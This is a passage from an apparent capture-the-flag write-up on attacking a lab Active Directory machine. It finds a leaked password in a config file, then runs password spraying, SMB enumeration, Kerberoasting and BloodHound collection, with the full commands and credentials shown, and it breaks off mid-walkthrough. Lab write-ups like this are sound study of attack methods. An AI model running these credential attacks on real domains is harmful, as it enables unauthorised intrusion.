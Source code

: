 Recursively listing contents inside download share, I discovered azure.xml which looked very interesting
  
`find . -ls`
![](https://i.imgur.com/nbe9sZE.png)

This seemed to be some kind of configuration file from Active Directory Powershell and it was leaking possible password: **4n0therD4y@n0th3r$**

![](https://i.imgur.com/7p4pncz.png)

I was pretty sure this password would pair with user **mhope** since it was found in his/hers directory but I still tried on password spraying.
### Password Spraying
Using crackmapexec for password spraying, I discovered account **mhope** pairs with the found password as expected:

`crackmapexec smb 10.10.10.172 -u sAMAccountName.txt -p '4n0therD4y@n0th3r$' --no-brute --continue-on-success`
![](https://i.imgur.com/Ova8bPh.png)

Luckily, this user had access to winrm:

![](https://i.imgur.com/66MQPfI.png)
## Privesc mhope->administrator
### SMB as mhope
I checked if account mhope has more access to different shares but it seemed it has the same access as account SABatchJobs -> **FAILED**

`smbmap -H 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'`
![](https://i.imgur.com/UXNFWcm.png)
### Kerberoasting
Now that I have valid credentials, I tried on Kerberoasting -> **FAILED**

`sudo GetUserSPNs.py megabank.local/mhope:'4n0therD4y@n0th3r$' -dc-ip 10.10.10.172 -request -save -outputfile getuserspns-mhope.out`
![](https://i.imgur.com/pRknRQe.png)
### Bloodhound
I ran bloodhound-python to collect data from the domain:

`sudo python bloodhound.py -u mhope -p '4n0therD4y@n0th3r$' -c ALL -ns 10.10.10.172 -d megabank.local`
![](https://i.imgur.com/CDrlrYS.png)

Started bloodhound and neo4j:

```bash

sudo neo4j console

bloodhound

```
